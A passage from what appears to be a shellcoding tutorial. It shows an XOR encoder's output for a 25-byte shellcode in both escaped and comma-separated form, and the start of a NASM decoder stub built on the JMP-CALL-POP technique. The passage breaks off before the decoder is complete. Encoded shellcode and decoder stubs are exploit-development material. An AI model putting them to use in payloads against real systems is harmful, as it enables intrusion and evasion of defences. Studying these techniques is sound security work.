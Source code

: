 ```py
print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode)) 
```

Now, the only thing you need to remember is that the byte value you
are using for xor encode **can not be** something which already exists
in the shellcode. And the reason is `xor`ing the encoding byte will
result in 0x00. So this only thing you need to verify that's all OK.

So let me run it with my shellcode

```
$ ./XOREncoder.py Encoded shellcode ...
\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a
0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a,
Len: 25
```

The second we will use in `nasm`. So let me go ahead and write
`xor-decoder.nasm` from scratch

```
global _start

section .text
_start:

```

Let me first paste the shellcode 

```asm
global _start

section .text
_start:






        Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

there we go. Now what I am going to do is I am basically going to 
write the decoder stub. So of course the first thing our decoder would
require is to figure out where exactly `Shellcode` sitting in the
program memory. And we will use the same JMP-CALL-POP technique to
find this out. So let me write out this skeleton
